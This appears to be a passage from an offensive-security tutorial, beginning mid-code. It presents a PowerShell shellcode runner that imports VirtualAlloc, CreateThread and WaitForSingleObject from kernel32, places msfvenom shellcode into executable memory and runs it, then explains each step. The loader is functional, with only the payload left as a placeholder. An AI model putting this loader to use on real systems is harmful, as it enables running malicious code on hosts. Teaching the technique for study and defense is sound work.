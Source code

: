 ```c#
public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); 
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
 
}
"@
Add-Type $CrtThread 

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

_Phew!_ That's a lot of code. But don't stress. We'll break down what it does step by step.

**Explanation of the Code**

The script starts by defining a few C# classes. These classes use the`DllImport` attribute to load specific functions from the`kernel32` DLL, which is part of the Windows API. 

```ad-summary
- `VirtualAlloc`: This function allocates memory in the process's address space. It's commonly used in scenarios like this to prepare memory for storing and executing shellcode.
- `CreateThread`: This function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory.
- `WaitForSingleObject`: This function pauses execution until a specific thread finishes its task. In this case, it ensures that the shellcode has completed execution.
```

These classes are then added to PowerShell using the`Add-Type` command, allowing PowerShell to use these functions.

**Storing the Shellcode in a Byte Array**

Next, the script stores the shellcode in the`$buf` variable, a byte array. In the example above,`SHELLCODE_PLACEHOLDER` is just there to show where you would insert the actual shellcode earlier generated through`msfvenom`. Usually, you'd replace it with the real shellcode, represented as a series of hexadecimal values. These hex values are the instructions that will be executed when the shellcode runs.
